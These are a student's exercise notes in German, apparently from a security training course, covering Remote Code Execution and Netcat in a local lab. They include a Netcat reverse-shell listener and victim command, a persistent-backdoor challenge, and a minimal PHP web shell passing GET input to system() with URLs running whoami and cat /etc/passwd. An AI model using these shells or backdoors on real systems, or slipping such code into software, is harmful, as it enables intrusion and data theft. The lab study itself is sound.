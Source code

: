 




#### Erkläre den Begriff Remote Code Execution und wie sie funktioniert in eigenen Worten.


Remote Code Execution  ist das ausführen eines Codes über remote zugriff aus der ferne .So kann ein Angreifer auf ein fremdes System oder PC ausführen  .  
  
Wie funktioniert Remote Code Execution?Ein Angreifer nutzt Sicherheitslücken , die es ihm erlauben, eigenen Code einzuschleusen und auf dem angegriffenen System auszuführen  
.Typische Ursachen für solche Lücken sind fehlerhafte Eingabeverarbeitung , schwache Authentifizierung oder falsch konfigurierte Server.  
Gelingt es dem Angreifer, seinen Code auf dem System laufen zu lassen, bestimmt er, was dieser Code tun soll – beispielsweise Programme starten, Daten verändern oder auslesen, Schadsoftware installieren eine Backdoor einrichten .




#### Welche Möglichkeiten gibt es eine RCE durchzuführen?

Dateiupload-Schwachstellen  
Injektionsangriffe  
Datenpakete maipulieren   
Server-side Request Forgery  
CVEs ausnutzen  
Datenlecks nutzen  
Zero-Day-Exploits





#### Banner-Grabbing mit Netcat

Verwende Netcat, um das Banner eines lokal laufenden Webservers (z.B. auf Port 80) abzurufen.  
  
Ziel: Zeige den HTTP-Header des Webservers.

![[Pasted image 20250715094750.png]]


#### Einfache Chatverbindung (lokal)

Starte auf Terminal 1 einen Listener und verbinde dich von Terminal 2 aus, um einen einfachen Textchat zu realisieren.

![[Pasted image 20250715095242.png]]



#### Dateiübertragung via Netcat (lokal)

  

Übertrage eine Textdatei von einem Host zum anderen.  
(Hinweis: Das wurde im Unterricht nicht explizit gezeigt.  
Tipp: Im Prinzip ist es eine Abwandlung des Textchats.)


![[Pasted image 20250715095844.png]]





#### Erkläre den Begriff Reverse Shell.


Bei einer Reverse Shell geht es darum um den zugriff und die vollständige Kontrolle über das System zu bekommen. im Prinzip bekommt man die Kontrolle über die Shell des Ziel System ,  
﻿  
﻿Im Gegensatz zu typischen Angriffen, bei denen der Angreifer versucht, sich direkt auf ein Zielsystem aufzuschalten (sogenannte "Bind Shell"), startet bei einer Reverse Shell das Zielsystem selbst die Verbindung nach außen – also aus dem internen Netzwerk des Opfers zu einem Server des Angreifers. Dies umgeht häufig Firewalls und Sicherheitsmaßnahmen, da ausgehende Verbindungen in vielen Netzwerken weniger streng kontrolliert oder blockiert werden als eingehende.  
﻿  
﻿Der Ablauf in Kurzform:  
﻿Der Angreifer richtet einen Listener auf seinem System ein, der auf eingehende Verbindungen wartet.  
﻿  
﻿Der infizierte Rechner des Opfers (nach Ausführung eines schädlichen Programms oder Skripts) stellt eine Verbindung zum Angreifer her.  
﻿  
﻿Über diese Verbindung kann der Angreifer dann Shell-Befehle an das Opfer weitergeben und deren Ausgaben empfangen.  
﻿  
﻿Beispiel: Mit Netcat lässt sich eine Reverse Shell beispielhaft so ausführen:  
﻿  
﻿Angreifer (Listener):bashnc -lvp 4444  
﻿  
﻿Opfer (Reverse Shell):bashnc 4444 -e /bin/bash


#### Reverse Shell:  
  

Nachdem der Chat und die Daateiübertragung funktionieren:  
- Erstelle eine Reverse Shell. Ein Terminal stellt das Opfer, das Andere den Angreifer dar.


![[Pasted image 20250715110601.png]]


#### Port-Scanner mit Netcat

  

Zeige, wie man mit Netscan einen schnellen Portscan durchführen kann.

![[Pasted image 20250715111033.png]]











#### Herausforderung: Einfache Backdoor mit Netcat

  

Kombiniere Netcat mit einem Cronjob oder Autostartmechanismus,  
um eine persistente Reverse Shell zu implementieren.


![[Pasted image 20250715111346.png]]

![[Pasted image 20250715111626.png]]






#### Herausforderung:  
 

Simulation eines Web Servers mit Netcat.  
  
Aufgabe:  
Benutze Netcact so, damit Anfragen auf den Port 80 (oder ein anderer freier Port, wie z.B. 8080) mit folgender Antwort quittiert werden:  
HTTP/1.1 200 OK  
Pseudo-Web Server  
 

Sinn: Auf diese Weise kannst du beliebige, offene Ports anbieten, um beispielsweise einen Honeypot zu realisieren.

![[Pasted image 20250715112015.png]]



#### Zusatzaufgabe:

  

Gestern Nachmittag haben wir zur Darstellung einer RCE ein Beispiel gesehen, in dem über die URL eines Webservers Kommandos auf der ausführenden Maschine ausgeführt werden konnten.  
  

Aufgabe:  
Baue das Szenario in deiner Testumgebung nach und zeige die Ausführung beliebiger Shell Kommandos auf der Zielrechner. ("Beliebig", unter Berücksichtigung der Rechte...)



<?php
if (isset($_GET['cmd'])) { 
system($_GET['cmd']);
} 
?>


php -S localhost:8080
http://localhost/rce_example.php?cmd=ls
http://localhost/rce_example.php?cmd=whoami
http://localhost/rce_example.php?cmd=id
http://localhost/rce_example.php?cmd=uname+-a
http://localhost/rce_example.php?cmd=cat+/etc/passwd




## Ergebnisdarstellung

|Beispiel-URL|Wirkung auf dem Zielsystem|Typische Ausgabe|
|---|---|---|
|`/rce_example.php?cmd=ls`|Verzeichnisinhalt|listet Dateien auf|
|`/rce_example.php?cmd=whoami`|Aktiver Systemuser|z.B. `www-data`|
|`/rce_example.php?cmd=uname+-a`|Systeminfos|Kernel-Version usw.|
|`/rce_example.php?cmd=cat+/etc/passwd`|Inhalt einer Systemdatei|(nur falls Server-Rechte ausreichen!)|